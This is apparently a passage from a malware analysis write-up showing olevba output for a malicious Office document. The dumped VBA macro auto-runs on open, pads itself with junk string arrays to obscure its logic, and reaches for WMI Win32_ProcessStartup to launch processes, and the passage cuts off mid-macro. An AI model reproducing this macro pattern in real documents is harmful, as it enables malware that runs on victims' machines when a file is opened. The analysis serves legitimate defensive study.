 ![](/img/1558417919490.png)

## Document

### olevba

#### Dump

I'll start with `olevba` to dump the VBA macros. I'll notice that
there's two macros streams that it believes are empty:



    $ olevba cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2
    olevba 0.54.1 on Python 2.7.15 - http://decalage.info/python/oletools
    ===============================================================================
    FILE: cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2
    Type: OLE
    -------------------------------------------------------------------------------
    VBA MACRO O3_4045.cls
    in file: cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2 - OLE stream: u'Macros/VBA/O3_4045'
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    (empty macro)
    -------------------------------------------------------------------------------
    VBA MACRO H94470.vba
    in file: cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2 - OLE stream: u'Macros/VBA/H94470'
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    Sub _
    autoopen( _
    )
       Dim d587624()
          ReDim d587624(5)
          d587624(0) = "206424235" + "276145942"
          d587624(1) = "270724748" + "644364997"
          d587624(2) = "998293622" + "775162821"
          d587624(3) = "419305928" + "165281006"
          d587624(4) = "645391534" + "663351253"
    H719_241
       Dim a566_28()
          ReDim a566_28(5)
          a566_28(0) = "892355821" + "126824804"
          a566_28(1) = "12521960" + "228692477"
          a566_28(2) = "455213603" + "397088026"
          a566_28(3) = "94846704" + "5941859"
          a566_28(4) = "245411699" + "225236639"
    End Sub
    Sub H719_241()
       Dim X690083()
          ReDim X690083(5)
          X690083(0) = "935402011" + "7445275"
          X690083(1) = "1298829" + "594659946"
          X690083(2) = "479032764" + "9024263"
          X690083(3) = "815473014" + "252858305"
          X690083(4) = "180358411" + "452096720"
    Set S19851 = GetObject(CStr("Winmgmts:Win32_ProcesSstartup"))
       Dim v47952()
          ReDim v47952(5)
          v47952(0) = "434953678" + "355235224"
          v47952(1) = "433715375" + "302757908"
          v47952(2) = "6807223" + "303678071"
          v47952(3) = "513990890" + "721825129"